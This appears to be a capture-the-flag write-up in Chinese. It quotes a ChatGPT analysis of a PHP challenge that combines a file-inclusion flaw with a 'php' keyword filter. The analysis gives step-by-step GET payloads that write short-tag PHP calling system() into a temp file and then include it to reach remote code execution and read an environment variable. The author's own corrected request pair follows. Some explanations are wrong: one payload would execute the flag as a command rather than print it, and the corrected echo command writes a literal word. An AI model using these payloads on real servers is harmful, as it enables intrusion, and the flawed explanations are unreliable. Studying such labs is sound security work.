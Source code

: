 # ChatGPT:
在这个场景中，我们分析代码逻辑并利用潜在漏洞拿到 `flag`。目标是绕过限制，并读取存储在环境变量 `$flag` 中的内容。

---

### 分析代码

1. **高亮文件**:
   ```php
   highlight_file("index.php");
   ```
   展示了当前文件代码。

2. **文件包含漏洞**:
   ```php
   if (isset($_GET['file'])) {
       include_once($_GET['file']);
   }
   ```
   如果我们能控制 `$_GET['file']` 的值，可以触发文件包含漏洞。

3. **内容限制与文件写入**:
   ```php
   if (strpos($content, "php") === 0 || strpos($content, "php") || (!isset($content) && !isset($_GET['file']))) {
       die("byebye");
   }
   ```
   - 检测 `$content` 是否包含字符串 `php`，若包含则终止执行。
   - `$content` 写入一个以当前时间戳为名的临时文件。

4. **目标**:
   - 读取 `$flag`。环境变量通常通过 PHP 的 `getenv()` 函数读取。
   - 利用文件包含功能配合临时文件。

---

### 攻击流程

1. **准备包含文件**:
   - 利用 `file_put_contents` 写入我们控制的 PHP 代码到临时文件。
   - 需要确保内容绕过 `strpos($content, "php")` 限制。

2. **文件包含执行代码**:
   - 使用 `$_GET['file']` 指向刚写入的临时文件。

---

### Payload 示例

#### 第一步：上传恶意文件内容
请求：
```
GET /index.php?content=<?=%20system(getenv('flag'));%20?>
```

解释：
- 写入的内容是短标签 `<?= ... ?>`（等价于 `<?php echo ... ?>`）。
- `system(getenv('flag'))` 直接执行命令打印 `$flag`。

#### 第二步：包含文件执行恶意代码
假设第一步返回的路径是 `/tmp/abc123.txt`。

请求：
```
GET /index.php?file=/tmp/abc123.txt
```

执行后，代码会运行，读取并输出环境变量 `$flag` 的值。

---

### 绕过的关键点
- 使用短标签 `<?=` 避免触发 `strpos($content, "php")`。
- 文件包含漏洞配合临时文件写入，实现恶意代码执行。

如有问题可进一步探讨！

---
实际实验表明：`$flag`无法写入文件，使用以下命令
  ```
  http://instance_ip/?content=<?= system("echo env>/tmp/1.txt"); ?>

  http://instance_ip/?file=/tmp/1.txt
  ```